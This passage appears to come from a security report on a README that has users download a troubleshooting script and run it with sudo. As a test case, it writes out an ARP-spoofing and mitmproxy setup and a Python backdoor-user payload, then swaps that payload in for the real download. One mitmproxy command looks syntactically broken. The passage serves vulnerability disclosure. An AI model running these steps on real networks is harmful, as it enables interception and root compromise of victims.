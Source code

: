         - **`sudo` Execution:** The instructions explicitly use `sudo` to execute the script, which is necessary for many troubleshooting tasks within the script but also elevates the risk significantly if a malicious script is executed.

* Security Test Case:
    1. **Set up MITM Attack Environment:** Configure a machine as a MITM attacker. This can be done using tools like `mitmproxy`, `Ettercap`, or `BetterCAP`. For example, using `mitmproxy`:
        ```bash
        # On attacker machine:
        sudo apt-get install mitmproxy  # Or appropriate installation for your system
        sudo ip route get 1.2.3.4 | awk '{print $3}' # Get gateway IP
        GATEWAY_IP=$(sudo ip route get 1.2.3.4 | awk '{print $3}')
        VICTIM_IP=<victim_machine_ip>
        sudo arpspoof -i <attacker_interface> -t $VICTIM_IP $GATEWAY_IP &
        sudo arpspoof -i <attacker_interface> -t $GATEWAY_IP $VICTIM_IP &
        sudo iptables -P FORWARD ACCEPT # Enable IP forwarding
        mitmproxy --ssl-insecure
        ```
    2. **Create Malicious Script (`malicious_script.py`):** Create a simple malicious Python script that will be used to replace the legitimate script during the MITM attack. For example, to create a backdoor user:
        ```python
        #!/usr/bin/env python
        import os
        import subprocess

        def create_backdoor_user():
            username = "backdoor_user"
            password = "P@$$wOrd123" # Choose a more robust password in real scenarios
            try:
                subprocess.run(["useradd", "-m", "-p", password, "-s", "/bin/bash", username], check=True)
                subprocess.run(["usermod", "-aG", "sudo", username], check=True)
                print(f"Backdoor user '{username}' created with sudo privileges.")
            except subprocess.CalledProcessError as e:
                print(f"Error creating backdoor user: {e}")

        if __name__ == "__main__":
            print("Malicious script executed with root privileges!")
            create_backdoor_user()
        ```
    3. **Configure MITM Proxy to Replace Script:** Configure `mitmproxy` (or your chosen MITM tool) to intercept the request to `raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py` and replace the response with the content of `malicious_script.py`. In `mitmproxy`, you can use a simple inline script or a more complex Python script. For a quick inline script, you can use `sed` to replace the body:
        ```bash
        # Assuming malicious_script.py is in the same directory as mitmproxy command
        MALICIOUS_SCRIPT_CONTENT=$(cat malicious_script.py)
        mitmproxy --ssl-insecure -q -s '(flow) => { if flow.request.pretty_url == "https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py": flow.response = mitmproxy.http.Response.make(200, "'"$MALICIOUS_SCRIPT_CONTENT"'", {"Content-Type": "text/plain"}) }'
        ```
    4. **Execute Download Command on Victim Machine:** On the victim machine, execute the download command as instructed in `README.md`:
        ```bash
        sudo wget https://raw.githubusercontent.com/Azure/updatemanagement/main/UM_Linux_Troubleshooter_Offline.py
        ```
    5. **Execute the Script on Victim Machine:** Execute the downloaded script with `sudo`:
        ```bash
        sudo python UM_Linux_Troubleshooter_Offline.py